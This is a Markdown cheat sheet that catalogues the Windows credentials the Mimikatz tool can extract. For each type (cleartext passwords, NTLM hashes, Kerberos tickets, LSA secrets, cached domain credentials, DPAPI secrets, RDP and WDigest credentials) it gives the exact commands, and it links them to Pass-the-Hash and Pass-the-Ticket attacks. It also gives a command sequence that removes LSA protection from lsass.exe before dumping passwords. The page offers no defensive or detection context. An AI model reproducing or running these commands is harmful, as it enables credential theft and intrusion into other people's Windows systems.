 # 🛠️ Mimikatz: Credentials It Can Capture

Mimikatz is a powerful tool for extracting credentials from Windows systems. Below is a breakdown of credential types it can capture, along with methods and formats.

---

## 🔐 1. Cleartext Passwords

- Extracted using:
  ```plaintext
  sekurlsa::logonpasswords
  ```
- Shows plaintext passwords **if**:
  - WDigest is enabled
  - User recently logged in and creds are still in memory

---

## 🧠 2. NTLM Hashes

- Extracted using:
  ```plaintext
  lsadump::sam
  sekurlsa::logonpasswords
  lsadump::lsa
  ```
- Usable in **Pass-the-Hash** attacks

---

## 🗝️ 3. Kerberos Tickets (TGT & TGS)

- Extracted using:
  ```plaintext
  sekurlsa::tickets
  kerberos::list
  ```
- Exportable as `.kirbi` files for **Pass-the-Ticket** attacks

---

## 💳 4. LSA Secrets

- Extracted via:
  ```plaintext
  lsadump::secrets
  ```
- May include:
  - Service account passwords
  - Scheduled task creds
  - Auto-logon creds

---

## 🔄 5. Cached Domain Credentials

- Extracted via:
  ```plaintext
  lsadump::cache
  ```
- Stored as **DCC2 (Domain Cached Credentials)** hashes

---

## 🔐 6. DPAPI Credentials

- Decrypted using:
  ```plaintext
  dpapi::masterkey
  dpapi::cred
  dpapi::chrome
  ```
- Targets:
  - Chrome saved passwords
  - Windows Credential Manager
  - RDP credentials

---

## 🖥️ 7. RDP Credentials

- Found in:
  - Credential Manager
  - `.rdp` files (if saved with credentials)
- Extracted using:
  ```plaintext
  sekurlsa::logonpasswords
  ```

---

## 🛂 8. Terminal Services Credentials

- Extracted with:
  ```plaintext
  ts::multirdp
  ts::logonpasswords
  ```

---

## 🔓 9. WDigest Credentials

- Extracted using:
  ```plaintext
  sekurlsa::wdigest
  ```
- Provides plaintext passwords if WDigest is **enabled**

---

## ⚙️ Requirements

- **Admin or SYSTEM privileges** required
- For `sekurlsa::*`, must have **SeDebugPrivilege**
- **Credential Guard**, **LSA Protection**, or **AV/EDR** may prevent extraction

## LSA protection override
```plaintext
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

---

## 📋 Summary Table

| Credential Type          | Module/Command             | Format            |
|--------------------------|----------------------------|-------------------|
| Cleartext Passwords      | `sekurlsa::logonpasswords` | Plaintext         |
| NTLM Hashes              | `lsadump`, `sekurlsa`      | Hash              |
| Kerberos Tickets         | `kerberos`, `sekurlsa`     | `.kirbi` (Base64) |
| LSA Secrets              | `lsadump::secrets`         | Varies            |
| Cached Credentials       | `lsadump::cache`           | DCC2 Hash         |
| DPAPI Credentials        | `dpapi::*`                 | Decrypted strings |
| RDP Credentials          | `sekurlsa::logonpasswords` | Plaintext/Hash    |
| WDigest Passwords        | `sekurlsa::wdigest`        | Plaintext         |

